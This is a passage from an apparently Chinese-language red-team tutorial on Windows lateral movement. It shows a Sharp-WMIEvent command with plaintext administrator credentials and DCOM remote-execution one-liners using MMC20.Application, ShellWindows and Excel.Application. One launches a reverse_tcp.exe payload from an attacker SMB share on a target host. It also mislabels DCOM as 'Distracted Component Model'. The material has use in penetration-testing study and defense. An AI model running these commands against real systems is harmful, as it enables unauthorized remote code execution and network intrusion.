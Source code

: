 `Sharp-WMIEvent -Trigger Interval -IntervalPeriod 60 -ComputerName 192.168.1.131 -Domain uf9n1x.com -Username Administrator -Password 123qwe@`

# [DCOM的利用](https://tttang.com/archive/1890/#toc_dcom)

COM（Component Object Model，组件对象模型）是微软的一套软件组成的二进制接口标准，使得跨编程语言的进程间通信、动态对象创建成为可能。COM指定了一个对象模型和编程要求，使COM对象能够与其他对象交互。这些对象可以在单个进程中，也可以在其它进程中，甚至可以在远程计算机中。在Windows中，每个COM对象都由唯一的128位的二进制标识符标识，即GUID。

DCOM（Distracted Component Model，分布式组件对象模型）是基于COM的一系列概念和程序接口，支持不同机器上的组件间通信。利用DCOM，客户端程序对象可以请求来自网络中另一台计算机上的服务器程序对象。

部分DCOM组件公开的接口中可能包含不安全的方法。执行以下命令，可以列出计算机上所有的DCOM程序组件

`Get-CimInstance Win32_DCOMApplication`

目前常利用的DCOM组件有：MMC20.Application、ShellWindows、Excel.Application、ShellBrowserWindow等。

使用DCOM在远程主机上面执行命令，需要具有以下条件：

- **具有管理员权限的PowerShell**
- **可能需要关闭目标系统的防火墙。**
- **在远程主机上执行命令时，必须使用域管的administrator账户或者目标主机具有管理员权限的账户**

## [MMC20.Application](https://tttang.com/archive/1890/#toc_mmc20application)

MMC20.Application对象的Document.ActiveView下存在一个ExecuteShellCommand方法，可以用来启动子进程并运行执行的程序或系统命令。

`# 通过progID与DCOM进行远程交互，并创建MMC20.Application对象的示例  $com =[activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application","192.168.1.131"))   # 调用ExecuteShellCommand方法启动进程，运行攻击载荷 $com.Document.ActiveView.ExecuteShellCommand('cmd.exe',$null,"/c \\192.168.1.1\mysmb\reverse_tcp.exe", "Minimized")   # 合并一句话 [activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application","192.168.1.131")).Document.ActiveView.ExecuteShellCommand('cmd.exe',$null,"/c \\192.168.1.1\mysmb\reverse_tcp.exe", "Minimized")`

## [ShellWindows](https://tttang.com/archive/1890/#toc_shellwindows)

ShellWindows组件提供了Document.Application.ShellExecute方法，适用于Windows7及以上的系统。

`# 通过PowerShell与DCOM进行远程交互，创建ShellWindows对象的实例:  $com=[Activator]::CreateInstance([Type]::GetTypeFromCLSID('9BA05972-F6A8-11CF-A442-00A0C90A8F39',"192.168.1 .131"))   # 然后执行如下命令，我们就可以调用该对象的"ShellExecute"方法在远程主机上启动进程: $com.item().Document.Application.ShellExecute("cmd.exe","/c C:\shell.exe","c:\windows\system32",$null,0)   # 完整的命令:  [Activator]::CreateInstance([Type]::GetTypeFromCLSID('9BA05972-F6A8-11CF-A442-00A0C90A8F39',"192.168.1.131")).item().Document.Application.ShellExecute("cmd.exe","/c C:\shell.exe","c:\windows\system32",$null,0)`

### [Excel.Application](https://tttang.com/archive/1890/#toc_excelapplication)

`# 通过PowerShell与DCOM进行远程交互，创建Excel.Application对象的实例:  $com = [activator]::CreateInstance([type]::GetTypeFromprogID("Excel.Application","192.168.1.131"))  $com.DisplayAlerts = $false   # 然后执行如下命令，我们就可以调用该对象的"DDEInitiate"方法在远程主机上启动进程: $com.DDEInitiate("cmd.exe","/c C:\shell.exe")`
